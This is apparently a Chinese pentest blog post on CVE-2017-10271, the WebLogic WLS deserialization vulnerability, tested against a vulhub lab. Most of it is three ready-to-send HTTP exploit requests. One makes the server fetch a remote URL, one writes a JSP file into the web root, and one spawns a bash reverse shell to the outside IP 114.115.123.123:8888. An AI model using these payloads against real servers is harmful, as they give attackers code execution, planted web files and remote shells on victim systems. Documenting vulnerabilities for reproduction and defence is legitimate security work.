 +++
date = "2018-03-09T09:20:03+08:00"
description = "2017年的漏洞，weblogic的一个组件存在反序列化漏洞，当时爆出这个漏洞时没有看，现在权当记录了"
draft = false
tags = ["代码执行","命令执行"]
title = "WebLogic WLS组件反序列化漏洞"
topics = ["Pentest"]

+++

### 0x00 WebLogic WLS组件反序列化漏洞
这个漏洞的编号是CVE-2017-10271，是利用Oracle WebLogic中WLS 组件的反序列化漏洞进行远程代码执行的，刚出来时没有看，现在记录一下

漏洞环境：https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271


### 0x01 访问远程文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8" class="java.beans.XMLDecoder">
                <object id="url" class="java.net.URL">
                    <string>http://114.115.123.123:80/aaaaaaa</string>
                </object>
                <object idref="url">
                    <void id="stream" method = "openStream" />
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

### 0x02 写入文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0" class="java.beans.XMLDecoder">
                <object class="java.io.PrintWriter"> 
                    <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/cert.jsp</string>
                    <void method="println"><string>&lt;% out.print("ccccc"); %&gt;</string></void>
                    <void method="close"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
然后访问：http://127.0.0.1:7001/wls-wsat/cert.jsp 即可

### 0x03 执行命令
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 803
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3" >
                        <void index="0"><string>/bin/bash</string></void>
                        <void index="1"><string>-c</string></void>
                        <void index="2"><string><![CDATA[bash -i >& /dev/tcp/114.115.123.123/8888 0>&1]]></string></void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
![CVE-2017-10271执行命令实例](/img/post/cve_2017_10271_command_exec.png)

<br>
#### Reference(侵删)：
* [利用DNSlog回显Weblogic(CVE-2017-10271)漏洞执行命令结果](http://www.freebuf.com/column/158579.html)
* [Weblogic(CVE-2017-10271)漏洞复现 附POC（Author：Poacher）](http://www.bugsafe.cn/archives/136.html)
